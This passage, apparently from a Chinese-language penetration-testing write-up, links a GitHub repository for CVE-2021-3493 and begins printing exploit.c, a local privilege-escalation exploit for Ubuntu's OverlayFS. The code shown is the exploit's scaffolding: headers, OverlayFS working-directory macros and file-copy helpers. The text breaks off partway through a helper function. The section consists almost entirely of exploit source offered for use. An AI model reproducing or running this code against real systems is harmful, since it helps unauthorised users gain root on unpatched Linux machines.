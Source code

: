 # 0X05 EXP
下载地址：[https://github.com/briskets/CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)

exploit.c
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;
    
    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);
    
    char buf[4096];
    ssize_t rd, wr;
    
    for (;;) {
```